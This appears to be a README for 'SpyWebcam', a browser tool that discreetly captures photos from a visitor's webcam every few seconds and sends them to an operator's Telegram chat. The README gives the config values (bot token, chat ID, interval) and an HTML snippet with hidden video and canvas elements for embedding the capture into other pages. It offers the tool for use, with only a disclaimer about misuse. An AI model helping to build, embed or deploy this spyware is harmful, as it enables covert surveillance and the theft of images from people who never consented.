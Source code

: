 ## SpyWebcam

SpyWebcam is a tool that discreetly captures photos from a user's webcam and sends them via Telegram using its bot API

### Config

1. Open the `config.js` file

2. Add your bot's `token`, the `chat_id` the bot will send images to, and the `capture time interval`
   ```javascript
   // Telegram bot token
   const TOKEN = "YOUR_TELEGRAM_BOT_TOKEN";

   // Chat ID where the bot sends the images
   const CHAT_ID = "YOUR_CHAT_ID";

   // Capture time interval (seconds)
   const INTERVAL = 1;

### Integration

1. To use SpyWebcam in other projects, insert the code below into your HTML page and include the modules

    ```html
    <!-- include in your html page -->
    <div style="display:none;">
        <video autoplay playsinline></video>
        <canvas width="600" height="600"></canvas>
    </div>

    <!-- modules -->
    <script src="js/config.js"></script>
    <script src="js/webcam.js"></script>

2. Ensure that your HTML page is served over HTTPS (SSL) to enable webcam access in modern browsers

### Caution: I am not responsible for misuse of this tool

